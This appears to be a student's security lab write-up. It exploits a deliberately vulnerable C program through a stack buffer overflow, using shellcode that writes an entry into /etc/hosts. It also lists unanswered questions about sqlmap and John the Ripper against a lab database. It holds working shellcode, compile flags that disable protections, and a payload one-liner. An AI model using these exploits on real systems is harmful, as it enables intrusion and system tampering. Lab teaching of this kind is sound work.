 # Lab #1,22110075, Ha Quoc Tien, INSE330380E_02FIE
# Task 1: Software buffer overflow

Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)
**Idea to attack**
- In the `vuln.c`, strcpy in vulnerable to buffer-overflow, which we can exploit to overwrite the return address and force the program to execute our shellcode.
- But, since the buffer size is now only 16 bytes, you will need to calculate the exact amount of data that will overflow the buffer and overwrite the return address.

**Step 1: Compile asm program and C program to executable code.**
- First, compile the asm program:`nasm -f elf32 -o shellcode.o shellcode.asm`<br>
    - Use `ld -o shellcode shellcode.o` to link object code to create executable file

- Second, complie the C program: `gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`<br>
    - `-fno-stack-protector`: This disables stack protection mechanisms that prevent buffer overflows.
    - `-mpreferred-stack-boundary=2`: option in GCC is used to specify the alignment of the stack.
    - `-z execstack`: This makes the stack executable, allowing us to run shellcode.

**Step 2: Extrac the shellcode**
- We need to extract the shellcode in raw byte format to inject it into the C program's buffer.

 >`objdump -d ./shellcode | grep '[0-9a-f]:' | cut -f2- | cut -d' ' -f1 | xxd -r -p > shellcode.bin`
 - This command generates a binary file shellcode.bin containing the raw shellcode.

**Step 3: Determine the Buffer Overflow Point**
- Stack frame

    ![task1_1](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Lab1/img/task1_1.png)

- From the stack frame, we can see that the return address is located 24 bytes after the start of the buffer. Therefore, we will need to overflow the buffer with 20 bytes of junk and then overwrite the return address with the address of our shellcode (4 bytes).

**Step 4:  Craft the Exploit Payload**
- The payload consists of three parts:
    1. 20 bytes of junk
    2. The address of the shellcode (an environment variable)
    3. the shellcode, place in an environment variable

- Place the shellcode in an environment variable: `export SHELLCODE=$(cat shellcode.bin)`
- Use `GDB` to get the environment variable's address
    - `gdb vuln.out`
    - Disassemble the main function: `disas main`
    - Run the function and then search for the environment variable's address using: `print getenv("SHELLCODE")`
     
        ![task1_2](https://github.com/Quoctienha/InformationSecurity_Labs/blob/main/Lab1/img/task1_2.png)

- Next, construct the payload using a Python script:<br>
    `python -c 'print "A"*20 + "\xb8\xdf\xff\xff"' > payload`

**Step 5: Run the Exploit**
- Finally, run the vulnerable program with the crafted payload. The shellcode will be executed, and the /etc/hosts file will be modified.<br>
`sudo ./vuln.out $(cat payload)`

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
